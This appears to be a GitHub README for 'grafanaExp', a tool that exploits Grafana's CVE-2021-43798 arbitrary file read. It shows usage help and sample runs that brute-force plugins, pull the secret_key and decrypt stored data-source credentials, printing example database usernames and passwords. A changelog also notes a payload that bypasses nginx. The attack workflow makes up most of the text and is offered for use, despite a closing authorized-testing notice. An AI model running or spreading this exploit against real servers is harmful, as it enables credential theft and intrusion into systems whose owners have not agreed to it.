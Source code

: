 # grafanaExp

A exploit tool for Grafana Unauthorized arbitrary file reading vulnerability (CVE-2021-43798), it can burst plugins / extract secret_key / decode data_source info automatic.

## Usage
Automatic exploit with `exp` and local decode dbfile with `decode`.
```
➜  ./grafanaExp -h
NAME:
   grafanaExp - Exploit Grafana with CVE-2021-43798 Arbitrary File Read.

USAGE:
   grafanaExp [global options] command [command options] [arguments...]

AUTHOR:
   A&D-Team

COMMANDS:
   exp      -u [url] -p [plugin] -c [config] -d [db] -k [key]
   decode   -f [dbfile] -k [key]
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help (default: false)

```

### Exp
burst plugins / extract secret_key / decode `data_source` info automatic.
```
➜  ./grafanaExp exp -u http://localhost:3000/ 
2021/12/07 22:19:10 Target vulnerable has plugin [alertlist]
2021/12/07 22:19:10 Get secret_key [SW2YcwTIb9zpOOhoPsMm]
2021/12/07 22:19:10 type:[mysql]        name:[MySQL_01]         url:[test.mysql.io:3306]        user:[root]     password[rootpassword]  database:[test_dbname]  basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 type:[mssql]        name:[Mssql_01]         url:[test_sqlserver:1433]       user:[admin]    password[adminpassword] database:[db_sqlserver] basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 type:[elasticsearch]        name:[es_01]            url:[http://localhost:9200]     user:[] password[]      database:[]     basic_auth_user:[basic_user]    basic_auth_password:[basic_pass]
2021/12/07 22:19:10 type:[postgres]     name:[Postgre_01]               url:[Postgre_01:5432]   user:[pppp]     password[sssswwwww]     database:[postgredb]    basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 All Done, have nice day!

```

### Decode
Local db file decode.
```
➜ ./grafanaExp decode -f grafana.db -k SW2YcwTIb9zpOOhoPsMm
2021/12/07 23:00:20 type:[mysql]        name:[MySQL_01]         url:[test.mysql.io:3306]        user:[root]     password[rootpassword]  database:[test_dbname]  basic_auth_user:[]      basic_auth_password:[]
2021/12/07 23:00:20 type:[mssql]        name:[Mssql_01]         url:[test_sqlserver:1433]       user:[admin]    password[adminpassword] database:[db_sqlserver] basic_auth_user:[]      basic_auth_password:[]
2021/12/07 23:00:20 type:[elasticsearch]        name:[es_01]            url:[http://localhost:9200]     user:[] password[]      database:[]     basic_auth_user:[basic_user]    basic_auth_password:[basic_pass]
2021/12/07 23:00:20 type:[postgres]     name:[Postgre_01]               url:[Postgre_01:5432]   user:[pppp]     password[sssswwwww]     database:[postgredb]    basic_auth_user:[]      basic_auth_password:[]
```

## Update
```
1、support https
2、add darwin binary
3、add payload so that it can bypass nginx
```

## Notice 

This program should only be used for authorized security testing and research purposes.
